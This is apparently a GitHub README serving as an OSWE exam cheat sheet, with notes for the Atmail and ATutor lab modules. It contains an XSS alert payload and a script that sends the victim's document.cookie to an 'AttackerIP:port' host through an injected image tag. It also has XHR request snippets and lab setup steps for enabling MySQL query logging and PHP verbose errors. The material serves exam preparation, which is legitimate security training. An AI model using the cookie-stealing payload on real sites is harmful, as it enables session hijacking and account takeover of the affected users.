 # OSWE-cheat-sheet
OSWE-cheat sheet module by module with updated syllabus:

Module : Atmail :

1. Access and alert cookie payload (Httponly flag should be disable in set-Cookie headers)<br>
    #<script>alert(document.cookie);</script>
    
2. Run Python Server in python3<br>
    #python3 -m http.server
    
3. Embeded cookie steal payload in image tag<br>
    #function addImage() {<br>
    #var img = document.createElement('img');<br>
    #img.src = 'http://AttackerIP:port/' + document.cookie;<br>
    #document.body.appendChild(img);<br>
    #}<br>
    #addImage();<br>
    
4. Set cookie by web developer console<br>
    #javascript:void(document.cookie="cookiename=value");
 
5. XHR POST Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("POST", url, true)<br>
    #xhr.send(data)<br>
    
6. XHR GET Request <br>
    #xhr= new XMLHttpRequest()<br>
    #xhr.open("GET", url, true)<br>
    #xhr.send()<br>

 Module : ATutor Authentication Bypass and RCE :<br>
 1. Enable MySQL DB logging<br>
    #nano /etc/mysql/my.cnf /*** uncomment or add below line ***/<br>
            #[mysqld]<br>
            #general_log_file = /var/log/mysql/mysql.log<br>
            #general_log = 1<br>
    #systemctl restart mysql /*** Restart MySQL ***/<br>
    #tail –f /var/log/mysql/mysql.log   /***Access MySQL Log ***/<br>
    
 2. Enable PHP verbose error
    #nano /etc/php5/apache2/php.ini /*** uncomment or add below line /<br>
        #display_errors = On
    #systemctl restart apache2    /*** Restart Apache ***/<br>
    
